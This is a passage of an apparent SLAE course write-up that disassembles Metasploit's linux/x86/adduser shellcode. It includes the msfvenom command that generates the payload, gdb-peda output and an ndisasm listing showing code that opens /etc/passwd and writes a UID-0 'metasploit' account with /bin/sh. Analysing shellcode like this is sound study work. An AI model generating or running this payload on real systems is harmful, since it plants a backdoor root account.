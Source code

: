 Legend: code, data, rodata, value

Breakpoint 1, 0x00404040 in shellcode ()</pre>
<p style="text-align:justify;">The above output is from <strong>gdb-peda</strong> which you can find it <a href="https://github.com/longld/peda">here. </a>At this point we will continue the analysis using the <strong><em>ndisasm </em></strong>tool in order to disassemble the shellcode</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span>#  msfvenom -p linux/x86/adduser -f c -o adduser.c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
Saved as: adduser.c
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span># res=`cat adduser.c | grep "\"" | sed 's/"//g;s/;//g' | sed ':a;N;$!ba;s/\n//g'`; echo -ne $res | ndisasm -u -
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E828000000        call 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1